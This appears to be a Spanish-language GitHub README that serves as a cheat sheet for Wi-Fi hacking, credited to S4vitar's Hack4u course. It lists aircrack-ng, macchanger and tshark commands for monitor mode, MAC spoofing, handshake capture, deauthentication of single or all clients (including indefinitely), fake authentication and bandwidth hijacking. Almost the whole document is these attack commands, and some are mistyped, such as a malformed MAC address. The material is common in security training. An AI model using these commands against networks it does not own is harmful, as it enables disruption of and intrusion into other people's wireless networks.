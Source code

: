 # Hacking-Wifi

### Todo esto fue posible gracias a Macelo Vázquez, Ve y siguelo. **[¡S4vitar!](https://www.linkedin.com/in/s4vitar/)**  y entra a su academia **[¡Hack4u!](https://hack4u.io/)** 

Diferentes pasos para vunerar una rede wifi, más adelante subire imágenes para mejor entendimiento

	sudo apt-get install linux-headers-$(uname -r) build-essential dkms git --> instlacion de paquete necesarios
	sudo git clone https://github.com/morrownr/8814au.git
	lsusb
	iwconfig
	macchanger -s wlan0
	sudo airmon-ng start wlan0
	sudo ifconfig wlan0 up
	pkill dhclient && pkill wpa_supplicant --> mata procesos del dhcclient que es agregado por dhcp del router
	killall dhclient wpa_supplicant 2>/dev/null --> otra forma de matar
	service network-manager restart --> en una version anterior 
	systemctl restart networking.service --> reiniciar servicio en nuevas versiones, aun o probado dicho comanod
	/etc/init.d/networking restart --: reiniciar cada vez que cerramos el modo monitor
	sudo airmon-ng check kill --> mata todo proceso conflictivo
	sudo service NetworkManager restart --> reinicia el network de kali
	sudo macchanger -l --> lista todas las mac
	sudo macchanger -l | grep -l "Apple"
	sudo macchanger -l | grep "NATIONAL SECURITY AGENCY" --> busca una mac
	ifconfig wlan0 down
	sudo macchanger --mac=00:20:91:da:bebe:91 wlan0 --> cambia la mac
	macchanger -s wlan0
	sudo airodump-ng wlan0 --> observa toda rede wifi y clientes autenticados
---
### Ver tráfico de accespoint y desautenticación
	sudo airodump-ng -c 1 wlan0
	sudo airodump-ng -c 1 --essid nombre-red wlan0 --> filtra el canal y el nombre wifi
	sudo airodump-ng -c 1 --bssid numerp-mac wlan0
	sudo airodump-ng -c 1 -w pentesting_wifi --bssid nombre-mac wlan0 --> guarda toda la captura en un archivo y se obtiene el handshake pero puede ser un falso positivo como un positivo
	watch -n 1 du -hc pentest_test_hacking-01.cap --> muestra el aumento del tamaño del archivo en vivo por minutos 
	sudo aireplay-ng -0 10 -e NOMBRE-RED -c mac-host wlan0 --> desentautentica un host especifico
	sudo aireplay-ng -0 10 -e nombre-red -c FF:FF:FF:FF:FF:FF wlan0 --> desentautentica de manera global
	sudo aireplay-ng -0 10 -e nombre-red wlan0 --> recomendable de 10 a 15 paquetes porque se pierde en el camino
	sudo aireplay-ng -0 0 -e nombre-red -c mac-dispositovo_conectado wlan0 --> desentautica indefinitivamente de un host hasta que el atacador pare el ataque.
	sudo aireplay-ng -1 0 -e nombre-red -a mac-bssid -h 00:0c:f1:da:de:af wlan0 --> sirve para conectar una falsa autenticación  pero hay que buscar los tres primeros macs con macchanger -l y usar uno de los tres
### Secuestro de ancho de banda-obtener el handshake
	sudo airodump-ng -c 1 -w captura --bssid mac-accespoint wlan0 --> Interceptar a un access/point
	tshark -r captura-01.cap -Y "wlan.fc.type_subtype=0x28" -Tjson 2>/dev/null --> filtrar las tramas cts en modo json
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==0x28" -Tfields -e wlan.duration 2>/dev/null | sort -u --> filtra por duración y ordena por palabras unicas sin repetirlas.
	sudo wireshark captura.cap > /dev/null 2>&1 & disown --> carga wireshark siendo libre sin depender de un proceso padre
	exportamos un paquete especifico y guardamos con exttensión pcap
	file ctsframe.pcap